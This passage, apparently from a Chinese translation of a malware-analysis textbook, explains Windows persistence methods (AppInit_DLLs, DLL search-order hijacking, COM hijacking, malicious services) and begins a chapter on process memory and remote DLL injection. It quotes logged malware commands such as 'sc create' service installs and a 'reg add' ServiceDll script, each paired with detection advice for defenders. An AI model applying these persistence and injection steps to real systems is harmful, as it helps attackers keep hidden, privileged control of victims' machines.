这种类型的攻击略微难以发现，因为攻击者要么用合法程序替换无障碍程序，要么利用合法程序。然而，如果你怀疑无障碍程序（sethc.exe）已被合法文件（如 cmd.exe 或 taskmgr.exe）取代，那么你可以将被取代的无障碍程序的哈希值与合法文件（cmd.exe 或 taskmgr.exe）的哈希值进行比较，以寻找匹配。哈希值匹配表明原始的 sethc.exe 文件被替换。你还可以检查图像文件执行选项的注册表项，看是否有任何可疑的修改。

#### 2.7 启用的应用程序的DLLs(**AppInit_DLLs**)

Windows中的AppInit_DLLs功能提供了一种将自定义DLLs加载到每个交互式应用程序的地址空间的方法。一旦DLL被加载到任何进程的地址空间，它就可以在该进程的上下文中运行，并可以钩住已知的API来实现一个替代功能。攻击者可以通过在以下注册表键中设置AppInit_DLLs值来实现其恶意DLL的持久性。这个值通常包含空格或以逗号分隔的DLLs列表。这里指定的所有DLLs都被加载到每个加载User32.dll的进程中。由于User32.dll几乎被所有进程加载，这种技术使攻击者能够将他们的恶意DLL加载到大多数进程中，并在加载进程的上下文中执行恶意代码。除了设置AppInit_DLLs值，攻击者还可以通过将LoadAppInit_DLLs注册表值设置为1来启用AppInit_DLLs功能。在启用安全启动的Windows 8和更高版本中，AppInit_DLLs功能被禁用。

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Windows
```

以下截图显示了由T9000后门（https://www.paloaltonetworks.com/blog/2016/02/t9000-advanced-modular-backdoor-uses-complex-anti-analysis-techniques/）添加的AppInit DLL条目。





由于添加了前面的注册表项，当任何新进程（加载User32.dll）启动时，都会将恶意DLL（ResN32.dll）加载到其地址空间。下面的截图显示了重启系统后加载恶意DLL（ResN32.dll）的操作系统的进程。由于这些进程大多以高完整性级别运行，它允许攻击者以高权限执行恶意代码。



为了检测这种技术，你可以寻找在AppInit_DLLs注册表的可疑条目，这些条目与你环境中的合法程序无关。你还可以寻找任何由于加载恶意DLL而表现出异常行为的进程。

#### 2.8 DLL搜索顺序劫持	

当一个进程被执行时，其相关的DLL被加载到进程内存中（通过导入表或作为进程调用LoadLibrary() API的结果）。Windows操作系统在预定义的位置上以特定的顺序搜索要加载的DLL。搜索顺序在MSDN这里有记录：https://docs.microsoft.com/zh-cn/windows/win32/dlls/dynamic-link-library-search-order?redirectedfrom=MSDN。

> 小编补充参考链接：https://docs.microsoft.com/en-us/archive/msdn-magazine/2003/october/basic-instincts-deploying-assemblies#S5

简而言之，如果任何DLL必须被加载，操作系统首先检查DLL是否已经在内存中加载。如果是，它就会使用加载的DLL。如果没有，它就检查该DLL是否被定义在KnownDLLs注册表键（HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs）。这里列出的DLLs是系统DLLs（位于system32目录下），它们使用Windows文件保护，以确保这些DLLs不会被删除或更新，除非被操作系统更新。如果要加载的DLL在KnownDLLs列表中，那么该DLL总是从System32目录中加载。如果不满足这些条件，那么操作系统会按顺序在以下位置寻找DLL。

1. 启动该应用程序的目录。
2. 系统目录（C:\Windows\System32）。
3. 16位系统目录（C:\Windows\System）。
4. Windows目录(C:\Windows)。
5. 当前目录。
6. 在PATH变量中定义的目录。

攻击者可以利用操作系统搜索DLL的方式来提升权限并实现持久性。参考Operation Groundbait（http://www.welivesecurity.com/wp-content/uploads/2016/05/Operation-Groundbait.pdf）中使用的恶意软件（Prikormka dropper）。该恶意软件在执行时，会在Windows目录（C:\Windows）中投放一个名为samlib.dll的恶意DLL，如下所示。

```
[CreateFile] toor.exe:4068 > %WinDir%\samlib.dll
```

在一个干净的操作系统中，一个具有相同名称的DLL（samlib.dll）驻留在C:\Windows\System32目录中，这个干净的DLL被驻留在C:\Windows目录中的explorer.exe加载。这个干净的DLL也被驻扎在system32目录下的其他几个进程加载，如图所示。




由于恶意DLL与explorer.exe被丢在同一目录下（即C:\Windows），因此，当系统重新启动时，恶意的samlib.dll被explorer.exe从C:\Windows目录中加载，而不是从system32目录中加载合法的DLL。下面的截图是在重新启动受感染的系统后拍摄的，显示了由于DLL搜索顺序被劫持而被explorer.exe加载的恶意DLL。



DLL搜索顺序劫持技术使取证分析变得更加困难，并逃避了传统的防御措施。为了检测这种攻击，你应该考虑监控DLLs的创建、重命名、替换或删除，并寻找任何由进程从异常路径加载的模块（DLLs）。

#### 2.9 COM劫持

组件对象模型（COM）是一个系统，它允许软件组件之间进行交互和通信，即使它们对对方的代码一无所知（https://msdn.microsoft.com/en-us/library/ms694363(v=vs.85).aspx）(小编访问发现中文地址为：https://docs.microsoft.com/zh-cn/windows/win32/com/the-component-object-model?redirectedfrom=MSDN)。软件组件通过使用COM对象进行交互，这些对象可以在单个进程、其他进程或远程计算机上。COM是作为一个客户/服务器框架来实现的。一个COM客户端是一个使用来自COM服务器（COM对象）的服务的程序，而COM服务器是一个向COM客户端提供服务的对象。COM服务器在DLL（称为进程内服务器）或EXE（称为进程外服务器）中实现一个由各种方法（功能）组成的接口。一个COM客户可以利用COM服务器提供的服务，方法是创建一个COM对象的实例，获取接口的指针，并调用其接口中实现的方法。

Windows操作系统提供了各种COM对象，可供程序（COM客户端）使用。这些COM对象由一个独特的数字标识，称为类标识符（CLSIDs），它们通常在注册表键HKEY_CLASSES_ROOT\CLSID\<唯一的clsid>中找到。例如，"我的电脑 "的COM对象是{20d04fe0-3aea-1069-a2d8-08002b30309d}，在下面的截图中可以看到。



对于每个CLSID键，你还有一个叫做InProcServer32的子键，指定实现COM服务器功能的DLL的文件名。下面的截图告诉你shell32.dll（COM服务器）与我的电脑有关。



与 "我的电脑"COM对象类似，微软提供了各种其他的COM对象（在DLL中实现），供合法程序使用。当合法程序（COM客户端）使用特定COM对象（使用其CLSID）的服务时，其相关的DLL被加载到客户端程序的进程地址空间。在COM劫持的情况下，攻击者修改了合法COM对象的注册表项，并将其与攻击者的恶意DLL联系起来。其思路是，当合法程序使用被劫持的对象时，恶意DLL会被加载到合法程序的地址空间。这使得攻击者能够在系统上持续存在并执行恶意代码。

在下面的例子中，在执行该恶意软件（Trojan.Compfun）时，它释放了一个扩展名为._dl的dll，如下所示。

```
 [CreateFile] ions.exe:2232 > %WinDir%\system\api-ms-win-downlevel-qgwo-l1-1-0._dl
```

然后，该恶意软件在HKCU\Software\Classes\CLSID中设置了以下注册表值。这个条目将MMDeviceEnumerator类的COM对象{BCDE0395-E52F-467C-8E3D-C4579291692E}与当前用户的恶意DLL C:\Windows\system\api-ms-win-downlevel-qgwo-l1-0._dl相关联。

```
[RegSetValue] ions.exe:2232 > HKCU\Software\Classes\CLSID\{BCDE0395-E52F-467C-8E3D-C4579291692E}\InprocServer32\(Default) = C:\Windows\system\api-ms-win-downlevel-qgwo-l1-1-0._dl
```

在一个干净的系统中，MMDeviceEnumerator类的COM对象{BCDE0395-E52F-467C-8E3D-C4579291692E}与DLL MMDevApi.dll相关，其注册表项通常在HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\中找到，而在HKCU\Software\Classes\CLSID\中没有找到相应条目。



由于恶意软件在HKCU\Software\Classes\CLSID\{BCDE0395-E52F-467C-8E3D-C4579291692E}中添加了一个条目，受感染的系统现在包含两个相同CLSID的注册表项。由于HKCU\Software\Classes\CLSID\{BCDE0395-E52F-467C-8E3D-C4579291692E}的用户对象在位于HKLM\SOFTWARE\Classes\CLSID\{BCDE0395-E52F-467C-8E3D-C4579291692E}的机器对象之前被加载，恶意DLL被加载，从而劫持了MMDeviceEnumerator的COM对象。现在，任何使用MMDeviceEnumerator对象的进程都会加载恶意的DLL。下面的图是在重新启动受感染的系统后截的。重启后，恶意的DLL被explorer.exe加载，如图所示。



COM劫持技术逃避了大多数传统工具的检测。为了检测这种攻击，你可以在HKCU\Software\Classes\CLSID\中寻找对象的存在。恶意软件可能不会在HKCU\Software\Classes\CLSID\中添加条目，而是修改HKLM\Software\Classes\CLSID\中的现有条目以指向一个恶意二进制文件，因此你也应该考虑检查这个注册表键中指向未知二进制文件的任何值。

#### 2.10 服务

服务是一个在后台运行的程序，没有任何用户界面，它提供操作系统的核心功能，如事件记录、打印、错误报告等。拥有管理员权限的攻击者可以通过将恶意程序安装为服务或修改现有的服务而在系统上持续存在。对于攻击者来说，使用服务的好处是，它可以被设置为在操作系统启动时自动启动，而且它大多以SYSTEM这样的特权账户运行；这使得攻击者可以提升权限。攻击者可以将恶意程序实现为EXE、DLL或内核驱动，并作为服务运行。Windows支持各种服务类型，下面概述了恶意程序使用的一些常见服务类型。

* Win32OwnProcess。服务的代码以可执行文件的形式实现，它作为一个单独的进程运行。
* Win32ShareProcess。服务的代码以DLL的形式实现，它从一个共享主机进程（svchost.exe）中运行。
* 内核驱动服务。这种类型的服务在一个驱动程序（.sys）中实现，它被用来在内核空间执行代码。

Windows在注册表的HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSetservices键下存储已安装的服务列表及其配置。每个服务都有自己的子键，由指定服务如何、何时以及是否在EXE、DLL或内核驱动中实现的值组成。例如，Windows安装程序服务的名称是msiserver，在下面的截图中，HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services下有一个与服务名称相同的子键。ImagePath值指定这个服务的代码在msiexec.exe中实现，Type值为0x10(16)告诉我们它是Win32OwnProcess，Start值0x3代表SERVICE_DEMAND_START，这意味着这个服务需要手动启动。



要确定与常量值相关的符号名称，你可以参考MSDN的CreateService() API文档（https://docs.microsoft.com/zh-cn/windows/win32/api/winsvc/nf-winsvc-createservicea?redirectedfrom=MSDN），或者你可以通过提供服务名称使用sc工具查询服务配置，如下图所示。这将显示在注册表子键中发现的类似信息。

```
C:\>sc qc "msiserver"
[SC] QueryServiceConfig SUCCESS
SERVICE_NAME: msiserver
TYPE : 10 WIN32_OWN_PROCESS
START_TYPE : 3 DEMAND_START
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : C:\Windows\system32\msiexec.exe /V LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : Windows Installer
DEPENDENCIES : rpcss
SERVICE_START_NAME : LocalSystem

```

现在让我们看一下Win32ShareProcess服务的例子。Dnsclient服务的服务名称是Dnscache，服务的代码是在DLL中实现的。当一个服务被实现为DLL（服务DLL）时，ImagePath注册表值通常会包含svchost.exe的路径（因为那是加载服务DLL的进程）。要确定与服务相关的DLL，你将不得不查看ServiceDLL值，它存在于HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\<service name>\Parameters子键下。下面的截图显示了与Dnsclient服务相关的DLL（dnsrslvr.dll）；这个DLL被通用主机进程svchost.exe加载。



攻击者可以通过许多方式创建服务。下面概述了一些常见的方法。

* sc工具。恶意软件可以调用cmd.exe，并可能运行sc命令，如sc create和sc start（或net start），分别创建和启动服务。在下面的例子中，恶意软件执行sc命令（通过cmd.exe）来创建和启动一个名为update的服务。

  ```
  [CreateProcess] update.exe:3948 > "%WinDir%\System32\cmd.exe /c sc create update binPath= C:\malware\update.exe start= auto && sc start update "
  ```

* 批量脚本。恶意软件可以投放一个批处理脚本，并执行前面提到的命令来创建和启动服务。在下面的例子中，恶意软件（Trojan:Win32/Skeeyah）投放了一个批处理脚本（SACI_W732.bat）并执行批处理脚本（通过cmd.exe），这反过来又创建并启动了一个名为Saci的服务。

  ```
  [CreateProcess] W732.exe:2836 > "%WinDir%\system32\cmd.exe /c %LocalAppData%\Temp\6DF8.tmp\SACI_W732.bat "
  [CreateProcess] cmd.exe:2832 > "sc create Saci binPath= %WinDir%\System32\Saci.exe type= own start= auto" [CreateProcess] cmd.exe:2832 > "sc start Saci"
  
  ```

* Windows API。恶意软件可以使用Windows API，如CreateService()和StartService()来创建和启动服务。当你在后台运行sc工具在后台运行时，它使用这些API调用来创建和启动服务。考虑一下下面这个NetTraveler恶意软件的例子。执行时，它首先释放一个dll。

  ```
  [CreateFile] d3a.exe:2904 > %WinDir%\System32\FastUserSwitchingCompatibilityex.dll
  ```

* 然后，它使用OpenScManager()API打开一个服务控制管理器的句柄，并通过调用CreateService()API创建一个Win32ShareProcess类型的服务。第二个参数指定了服务的名称，在本例中是FastUserSwitchingCompatiblity。



在调用CreateService()后，服务被创建，以下注册表键被添加到服务配置信息中。



然后，它在上一步创建的注册表键下创建一个参数子键。



之后，它丢弃并执行一个批处理脚本，设置注册表值（ServiceDll），将DLL与创建的服务联系起来。批处理脚本的内容在这里显示。

```
@echo off
@reg add
"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\FastUserSwitchingComp
atibility\Parameters" /v ServiceDll /t REG_EXPAND_SZ /d
C:\Windows\system32\FastUserSwitchingCompatibilityex.dll

```

由于创建了Win32ShareProcess服务，当系统启动时，服务控制管理器（services.exe）会启动svchost.exe进程，该进程又会加载恶意的ServiceDLL FastUserSwitchingCompatibilityex.dll。

* PowerShell和WMI：也可以使用管理工具创建服务，如PowerShell（https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/new-service?view=powershell-5.1）和Window Management Instrumentation（WMI）高级接口（https://msdn. microsoft.com/en-us/library/aa394418(v=vs.85).aspx(小编测试：https://docs.microsoft.com/zh-cn/windows/win32/cimwin32prov/win32-service?redirectedfrom=MSDN)）。

攻击者可以修改（劫持）现有的服务，而不是创建一个新的服务。通常情况下，攻击者会劫持一个未使用或禁用的服务。这使得检测变得稍微困难，因为如果你试图找到非标准或未被识别的服务，你将错过这种类型的攻击。参考BlackEnergy恶意软件投放器的例子，它劫持了现有的服务以在系统上持续存在。在执行时，BlackEnergy用恶意的aliide.sys驱动替换了驻留在system32\drivers目录下的名为aliide.sys的合法驱动（与名为aliide的服务相关）。替换驱动程序后，它修改了与aliide服务相关的注册表项，并将其设置为自动启动（当系统启动时，该服务自动启动），如以下事件所示。

```
[CreateFile] big.exe:4004 > %WinDir%\System32\drivers\aliide.sys [RegSetValue] services.exe:504 > HKLM\System\CurrentControlSet\services\aliide\Start = 2
```

下面的截图显示了修改前后aliide服务的服务配置。关于BlackEnergy3 big dropper的详细分析，请阅读作者的博文：https://cysinfo.com/blackout-memory-analysis-of-blackenergy-big-ropper/。



为了检测此类攻击，请监测与合法程序无关的服务注册表项的变化。寻找与服务相关的二进制路径的修改，以及服务启动类型的变化（从手动到自动）。你还应该考虑监控和记录sc、PowerShell和WMI等工具的使用情况，这些工具可用于与服务互动。Sysinternals AutoRuns工具也可以用来检查服务的使用情况，以实现持久性。

> 只要微软Office应用程序启动，敌方就可以持续并执行DLL中的恶意代码。更多细节，请参见http://www.hexacorn.com/blog/2014/04/16/beyond-good-ol-run-key-part-10/ 和 https://unit42.paloaltonetworks.com/unit42-technical-walkthrough-office-test-persistence-method-used-in-recent-sofacy-attacks/。
> 关于各种持久化方法的进一步细节，以及了解攻击者的战术和技术，请参考MITRE的ATT&CK维基：https://attack.mitre.org/wiki/persistence。


### 总结

恶意软件使用各种API调用与系统进行交互，在这一章中，你了解到恶意二进制文件是如何使用API调用来实现各种功能的。本章还介绍了攻击者使用的不同的持久性技术，这些技术使它们即使在系统重启后也能驻留在受害者的系统中（其中一些技术允许恶意二进制软件以高权限执行代码）。
在下一章中，你将了解攻击者使用的不同的代码注入技术，在合法进程的上下文中执行他们的恶意代码。


## 8. 代码注入和钩子

在上一章中，我们研究了恶意软件用来留在受害者系统中的不同持久性机制。在本章中，你将学习恶意程序如何将代码注入另一个进程（称为目标进程或远程进程）以执行恶意行动。将恶意代码注入目标进程的内存并在目标进程的上下文中执行恶意代码的技术被称为代码注入（或进程注入）。

攻击者通常选择一个合法进程（如explorer.exe或svchost.exe）作为目标进程。一旦恶意代码被注入目标进程，它就可以在目标进程的上下文中执行恶意行为，如记录击键、窃取密码和渗出数据。在将代码注入目标进程的内存后，负责注入代码的恶意软件组件可以继续在系统上持续存在，从而在每次系统重启时将代码注入目标进程，或者它可以从文件系统中删除自己，只将恶意代码保留在内存中。

在我们深入研究恶意软件的代码注入技术之前，必须了解虚拟内存的概念。


### 8.1 虚拟内存

当你双击一个包含指令序列的程序时，就会创建一个进程。Windows操作系统为每个新创建的进程提供自己的私有内存地址空间（称为进程内存）。进程内存是虚拟内存的一部分；虚拟内存不是真正的内存，而是由操作系统的内存管理器创造的一种假象。正是由于这种假象，每个进程都认为它有自己的私有内存空间。在运行期间，Windows内存管理器在硬件的帮助下，将虚拟地址转化为实际数据所在的物理地址（在RAM中）；为了管理内存，它将一些内存分页到磁盘。当进程的线程访问被分页到磁盘的虚拟地址时，内存管理器将其从磁盘装回内存。下图说明了两个进程，A和B，它们的进程内存被映射到物理内存中，而有些部分被分页到磁盘上。



由于我们通常处理的是虚拟地址（就是你在调试器中看到的那些），所以在本章的其余部分，我们将不讨论物理内存。现在，让我们来关注一下虚拟内存。虚拟内存被划分为进程内存（进程空间或用户空间）和内核内存（内核空间或系统空间）。虚拟内存地址空间的大小取决于硬件平台。例如，在32位架构上，默认情况下，总的虚拟地址空间（包括进程和内核内存）最大为4GB。低于一半的部分（下2GB空间），范围从0x00000000到0x7FFFFFFF，被保留给用户进程（进程内存或用户空间），地址的上半部分（上2GB空间），范围从0x80000000到0xFFFFFFFF，被保留给内核内存（内核空间）。

在32位系统中，在4GB的虚拟地址空间中，每个进程认为它有2GB的进程内存，范围从0x00000000 - 0x7FFFFFFF。由于每个进程认为它有自己的私有虚拟地址空间（最终被映射到物理内存），总的虚拟地址会比可用的物理内存（RAM）大很多。Windows内存管理器通过将一些内存分页到磁盘来解决这个问题；这释放了物理内存，它可以用于其他进程或操作系统本身。尽管每个Windows进程都有自己的私有内存空间，但内核内存在大多数情况下是公用的，并由所有进程共享。下图显示了32位架构的内存布局。你可能会注意到在用户空间和内核空间之间有一个64KB的空隙；这个区域是不可访问的，它可以确保内核不会意外地越过边界而破坏用户空间。你可以通过检查符号MmHighestUserAddress来确定进程地址空间的上边界（最后可用的地址），通过使用内核调试器（如Windbg）查询符号MmSystemRangeStart来确定内核空间的下边界（第一个可用地址）。



即使每个进程的虚拟地址范围是相同的（x00000000 - 0x7FFFFFFF），硬件和Windows都确保映射到这个范围的物理地址对每个进程是不同的。例如，当两个进程访问同一个虚拟地址时，每个进程最终将访问物理内存中的不同地址。通过为每个进程提供私有的地址空间，操作系统确保进程不会覆盖对方的数据。

虚拟内存空间不需要总是被分成2GB的两半，这只是默认设置。例如，你可以通过以下命令启用3GB的启动开关，将进程内存增加到3GB，范围从0x00000000 -
0xBFFFFFFF；内核内存得到剩余的1GB，从0xC0000000-0xFFFFFFFF。

```
 bcdedit /set increaseuserva 3072
```

x64架构为进程和内核内存提供更大的地址空间，如下图所示。在x64架构上，用户空间的范围是0x000000000000-0x000007ffffffff，而内核空间的范围是0xffff080000000000及以上。你可能会注意到在用户空间和内核空间之间有一个巨大的地址差距；这个地址范围是不能使用的。尽管在下面的截图中，内核空间是从0xffff080000000000开始的，但内核空间的第一个可用地址是从ffff800000000开始的。原因是x64代码中使用的所有地址都必须是规范的。如果一个地址的第47-63位全部被设置或全部被清除，那么这个地址就是规范的的。试图使用一个非规范的地址会导致一个页面故障异常。



#### 1.1 进程内存组件（用户空间）

有了对虚拟内存的了解，让我们把注意力集中在虚拟内存的一部分，即进程内存。进程内存是用户应用程序使用的内存。下面的截图显示了两个进程，并给出了驻留在进程内存中的组件的高级概述。在下面的截图中，为了简单起见，内核空间被故意留空（我们将在下一节中填补这一空白）。请记住，进程共享相同的内核空间。



过程存储器由以下主要部分组成。

* 进程可执行文件。这个区域包含与应用程序相关的可执行文件。当双击磁盘上的一个程序时，就会创建一个进程，并将与该程序相关的可执行文件加载到进程内存中。
* 动态链接库（DLLs）。当一个进程被创建时，其所有相关的DLLs被加载到进程内存中。这个区域代表与进程相关的所有DLLs。
* 进程环境变量。这个内存区域存储进程的环境变量，如临时目录、主目录、AppData目录等等。
* 进程堆。这个区域指定了进程的堆。每个进程有一个单一的堆，并且可以根据需要创建额外的堆。这个区域指定了进程所接受的动态输入。 
* 线程堆栈。这个区域代表分配给每个线程的进程内存的专用范围，称为其运行时堆栈。每个线程都有自己的堆栈，在这里可以找到函数参数、局部变量和返回地址。
* 进程环境块（PEB）。这个区域代表了PEB结构，它包含了关于可执行文件的加载位置、它在磁盘上的完整路径以及在内存中找到DLL的信息。

你可以通过使用Process Hacker（https://processhacker.sourceforge.io/）工具来检查一个进程的内存内容。要做到这一点，启动Process Hacker，右键单击所需的进程，选择属性，并选择内存选项卡。

#### 1.2 内核内存内容（内核空间）

内核内存包含操作系统和设备驱动程序。下面的截图显示了用户空间和内核空间的组件。在本节中，我们将主要关注内核空间的组件。



内核内存由以下关键部分组成。

* hal.dll。硬件抽象层（HAL）是在可加载的内核模块hal.dll中实现的。HAL将操作系统与硬件隔离；它实现了支持不同硬件平台（主要是芯片组）的功能。它主要为Windows执行器、内核和内核模式设备驱动程序提供服务。内核模式设备驱动程序调用hal.dll暴露的功能与硬件进行交互，而不是直接与硬件进行通信。
* ntoskrnl.exe。这个二进制文件是被称为内核镜像的Windows操作系统的核心组件。ntoskrnl.exe二进制文件提供两种类型的功能：执行和内核。执行器实现了被称为系统服务例程的功能，用户模式的应用程序可以通过一个受控机制调用这些功能。执行器还实现了主要的操作系统组件，如内存管理器、I/O管理器、对象管理器、进程/线程管理器，等等。内核实现了低级别的操作系统服务，并公开了一系列的例程，这些例程由执行器建立，以提供高级别的服务。
* Win32K.sys。这个内核模式的驱动程序实现了用户界面和图形设备接口（GDI）服务，这些服务用于在输出设备（如显示器）上渲染图形。它为GUI应用程序提供功能。

### 2. 用户模式和内核模式

在上一节中，我们看到虚拟内存是如何被分为用户空间（进程内存）和内核空间（内核内存）的。用户空间包含的代码（如可执行文件和DLL）以受限的访问方式运行，被称为用户模式。换句话说，在用户空间运行的可执行文件或DLL代码不能访问内核空间的任何东西，也不能与硬件直接交互。内核空间包含内核本身（ntoskrnl.exe）和设备驱动程序。运行在内核空间的代码以高权限执行，即所谓的内核模式，它可以同时访问用户空间和内核空间。通过为内核提供高权限级别，操作系统确保用户模式的应用程序不能通过访问受保护的内存或I/O端口而导致系统不稳定。第三方驱动程序可以通过实现和安装签名的驱动程序使他们的代码在内核模式下运行。

空间（用户空间/内核空间）和模式（用户模式/内核模式）之间的区别是，空间指定了内容（数据/代码）的存储位置，而模式指的是执行模式，它指定了允许应用程序的指令如何执行。

如果用户模式的应用程序不能直接与硬件交互，那么问题是，在用户模式下运行的恶意软件二进制文件如何通过调用WriteFile API将内容写入磁盘上的文件？事实上，大多数由用户模式应用程序调用的API，最终都会调用内核执行程序（ntoskrnl.exe）中实现的系统服务程序（功能），而内核执行程序又会与硬件进行交互（例如，向磁盘上的文件写入）。以同样的方式，任何调用GUI相关API的用户模式应用程序最终都会调用内核空间中win32k.sys所暴露的功能。下图说明了这个概念；为了简单起见，我从用户空间删除了一些组件。ntdll.dll（驻留在用户空间）充当了用户空间和内核空间之间的网关。以同样的方式，user32.dll作为GUI应用程序的网关。在下一节，我们将主要关注通过ntdll.dll将API调用过渡到内核执行的系统服务例程。



#### 2.1 Windows API调用流程

Windows操作系统通过暴露在DLLs中实现的API来提供服务。一个应用程序通过调用DLL中实现的API来使用服务。大多数API函数最终会调用ntoskrnl.exe（内核执行）中的系统服务程序。在这一节中，我们将研究当应用程序调用API时会发生什么，以及API如何最终调用ntoskrnl.exe（执行）中的系统服务例程。具体来说，我们将看看当一个应用程序调用WriteFile()API时会发生什么。下图给出了API调用流程的高级概述。



1. 当一个进程通过双击程序被调用时，进程的可执行图像及其所有相关的DLLs被Windows加载器加载到进程内存中。当一个进程启动时，主线程被创建，它从内存中读取可执行代码并开始执行它。需要记住的一点是，执行代码的不是进程，而是执行代码的线程（进程只是线程的一个容器）。被创建的线程开始在用户模式下执行（有限制的访问）。一个进程可以根据需要明确地创建额外的线程。
2. 我们假设一个应用程序需要调用WriteFile()API，它是由kernel32.dll导出的。为了将执行控制转移到WriteFile()，线程必须知道WriteFile()在内存中的地址。如果应用程序导入了WriteFile()，那么它可以通过查看一个叫做导入地址表（IAT）的函数指针表来确定其地址，如前图所示。这个表位于内存中的应用程序的可执行映像中，当DLLs被加载时，它被windows加载器填充了函数地址。
一个应用程序也可以在运行期间通过调用LoadLibrary()API来加载DLL。
它可以通过使用GetProcessAddress()API来确定加载的DLL中的函数地址。如果一个应用程序在运行期间加载一个DLL，那么IAT就不会被填充。
3. 一旦线程从IAT或在运行时确定了WriteFile()的地址，它就会调用WriteFile()，在kernel32.dll中实现。WriteFile()函数中的代码最终会调用一个DLL网关，ntdll.dll导出的函数NtWriteFile()。ntdll.dll 中的 NtWriteFile() 函数并不是 NtWriteFile() 的真正实现。实际的函数，具有相同的名称，NtWriteFile()（系统服务例程），驻留在ntoskrnl.exe（执行）中，它包含真正的实现。ntdll.dll中的NtWriteFile()只是一个存根例程，执行SYSENTER（x86）或SYSCALL（x64）指令。这些指令将代码过渡到内核模式。
4. 现在，在内核模式下运行的线程（具有不受限制的访问权限）需要找到实际函数NtWriteFile()的地址，该函数在ntoskrnl.exe中实现。要做到这一点，它需要查询内核空间中的一个表称为系统服务描述符表（SSDT），并确定NtWriteFile()的地址。然后，它调用Windows执行程序（在ntoskrnl.exe中）中实际的NtWriteFile()（系统服务例程），该程序将请求引向I/O管理器中的I/O功能。然后，I/O管理器将请求指向适当的内核模式设备驱动程序。内核模式设备驱动程序使用HAL导出的例程来与硬件接口。

### 3. 代码注入技术

如前所述，代码注入技术的目的是将代码注入远程进程的内存，并在远程进程的上下文中执行注入的代码。注入的代码可以是一个模块，如可执行文件，DLL，甚至是shellcode。代码注入技术为攻击者提供了许多好处；一旦代码被注入到远程进程中，攻击者可以做以下事情。

* 迫使远程进程执行注入的代码以进行恶意操作（如下载额外的文件或窃取键盘按键信息）。
* 注入一个恶意模块（如DLL），并将远程进程的API调用重定向到注入模块中的一个恶意函数。然后，该恶意函数可以拦截API调用的输入参数，也可以过滤输出参数。例如，Internet Explorer使用HttpSendRequest()向Web服务器发送一个包含可选POST有效载荷的请求，它使用InternetReadFile()从服务器的响应中获取字节，并在浏览器中显示它。攻击者可以在Internet Explorer的进程内存中注入一个模块，并将HttpSendRequest()重定向到被注入模块中的恶意函数，以便从POST有效载荷中提取证书。以同样的方式，它可以拦截从InternetReadFile()API收到的数据，读取数据或修改从网络服务器收到的数据。这使攻击者能够在数据到达网络服务器之前拦截数据（如银行凭证），也使攻击者能够在数据到达受害者的浏览器之前替换或插入额外的数据到服务器的响应中（如在HTML内容中插入一个额外的字段）。
* 将代码注入到已经运行的进程中，允许攻击者实现持久性。
* 将代码注入到受信任的进程中，允许攻击者绕过安全产品（如白名单软件）并躲避用户。

在本节中，我们将主要关注用户空间中的代码注入技术。我们将研究攻击者用来对远程进程进行代码注入的各种方法。

在以下代码注入技术中，有一个注入代码的恶意软件进程（启动器或加载器）和一个合法进程（如explorer.exe），代码将被注入其中。在执行代码注入之前，启动器需要首先确定要注入代码的进程。这通常是通过列举系统上运行的进程来完成的；它使用三个API调用。CreateToolhelp32Snapshot(), Process32First(), 和Process32Next()。CreateToolhelp32Snapshot()用于获取所有正在运行的进程的快照；Process32First()获取快照中第一个进程的信息；Process32Next()在一个循环中用于遍历所有进程。Process32First()和Process32Next()API获得有关进程的信息，如可执行名称、进程ID和父进程ID；这些信息可以被恶意软件用来确定它是否是目标进程。有时，恶意程序不是将代码注入已经运行的进程，而是启动一个新的进程（如notepad.exe），然后向其中注入代码。

无论恶意软件是向已经运行的进程注入代码，还是启动一个新的进程来注入代码，所有代码注入技术（接下来会介绍）的目标都是向目标（合法）进程的地址空间注入恶意代码（无论是DLL、可执行代码，还是Shellcode），并迫使合法进程执行注入的代码。根据代码注入技术的不同，要注入的恶意组件可以驻留在磁盘或内存中。下图应该能让你对用户空间的代码注入技术有一个高层次的了解。



#### 3.1 远程DLL注入

在这种技术中，目标（远程）进程被强迫通过LoadLibrary()API将一个恶意的DLL加载到其进程内存空间。kernel32.dll输出LoadLibrary()，该函数接受一个参数，即磁盘上DLL的路径，并将该DLL加载到调用进程的地址空间。在这种注入技术中，恶意软件进程在目标进程中创建了一个线程，该线程通过传递恶意DLL路径作为参数来调用LoadLibrary()。由于线程在目标进程中被创建，目标进程将恶意DLL加载到其地址空间。一旦目标进程加载了恶意DLL，操作系统就会自动调用DLL的DllMain()函数，从而执行恶意代码。

下面的步骤详细描述了这种技术是如何进行的，以一个名为nps.exe（加载器或启动器）的恶意软件为例，它通过LoadLibrary()向合法的explorer.exe进程注入一个DLL。在注入恶意的DLL组件之前，它被投放到磁盘上，然后执行以下步骤。

1. 恶意软件进程（nps.exe）识别目标进程（explorer.exe，在这种情况下）并获得其进程ID（pid）。获取pid的目的是为目标进程打开一个句柄，以便恶意软件进程能够与之互动。要打开一个句柄，需要使用OpenProcess()API，它接受的参数之一是进程的pid。在下面的截图中，恶意软件通过传递explorer.exe的pid（0x624，即1572）作为第三个参数调用OpenProcess()。OpenProcess()的返回值是对explorer.exe进程的句柄。



2. 然后，恶意软件进程在目标进程中使用VirutualAllocEx()API分配内存。在下面的截图中，第1个参数（0x30）是explorer.exe（目标进程）的句柄，它从上一步获得。第3个参数，0x27（39），代表目标进程中要分配的字节数，第5个参数（0x4）是一个常量值，代表PAGE_READWRITE的内存保护。VirtualAllocEx()的返回值是explorer.exe中分配的内存地址。



3. 在目标进程中分配内存的原因是为了复制一个字符串，以确定磁盘上恶意DLL的完整路径。恶意软件使用WriteProcessMemory()将DLL路径名复制到目标进程的分配内存中。在下面的截图中，第2个参数0x01E30000是目标进程中分配的内存地址，第3个参数是DLL的完整路径，将被写入explorer.exe中分配的内存地址0x01E30000。



